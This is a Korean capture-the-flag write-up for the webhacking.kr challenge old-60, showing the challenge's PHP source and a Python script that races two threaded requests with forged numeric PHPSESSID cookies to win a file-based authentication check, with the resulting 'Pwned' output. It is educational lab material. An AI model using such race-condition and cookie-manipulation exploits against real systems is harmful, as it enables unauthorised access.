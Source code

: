 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**

![](images/2022-01-03-03-40-22.png)


# **Write-Up**

view-source를 클릭하면 PHPSESSID가 숫자로 이루어져야 함을 알 수 있다.

```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
  login_chk();
  echo "Your idx is {$_SESSION['idx']}<hr>";
  if(!is_numeric($_COOKIE['PHPSESSID'])) exit("Access Denied<br><a href=./?view_source=1>view-source</a>");
  sleep(1);
  if($_GET['mode']=="auth"){
    echo("Auth~<br>");
    $result = file_get_contents("./readme/{$_SESSION['idx']}.txt");
    if(preg_match("/{$_SESSION['idx']}/",$result)){
      echo("Done!");
      unlink("./readme/{$_SESSION['idx']}.txt");
      solve(60);
      exit();
    }
  }
  $p = fopen("./readme/{$_SESSION['idx']}.txt","w");
  fwrite($p,$_SESSION['idx']);
  fclose($p);
  if($_SERVER['REMOTE_ADDR']!="127.0.0.1"){
    sleep(1);
    unlink("./readme/{$_SESSION['idx']}.txt");
  }
?>
... 생략 ...
```

로그인 세션이 풀리겠지만 PHPSESSID를 숫자로만 이루어지게 변경 후 재 로그인하여 문제를 다시 보면 Access Denied는 뜨지 않는다.

![](images/2022-01-03-03-40-43.png)

그리고 Edge를 열어 (서로 다른 부라우저) 숫자로만 이루어진 PHPSESSID를 설정해주자.

![](images/2022-01-03-03-40-48.png)

그리고 스레드를 이용하여 Auth접근을 1초보다 덜 느리게 접근하면 점수를 획득할 수 있다.

```python
import requests
import threading

CHALLENGE   = 'https://webhacking.kr/challenge/web-37/'

def conn(url, flag):
    if flag : headers = {'Cookie':'PHPSESSID=222'}
    else : headers = {'Cookie':'PHPSESSID=123'}
    req = requests.get(url=url, headers=headers)
    print('[{}] {}'.format(url, req.text.strip()))


th1 = threading.Thread(target=conn, args=(CHALLENGE, False))
th2 = threading.Thread(target=conn, args=(CHALLENGE + '?mode=auth', True))
th1.start()
th2.start()

th1.join()
th2.join()

[Output]
[https://webhacking.kr/challenge/web-37/?mode=auth] Your idx is 52864<hr>Auth~<br>Done!<script>alert('old-60 Pwned!');</script><hr>old-60 Pwned. You got 30point. Congratz!<hr>
[https://webhacking.kr/challenge/web-37/] Your idx is 52864<hr><html><head><title>Challenge 60</title></head><body><a href=./?view_source=1>view-source</a></body></html>
```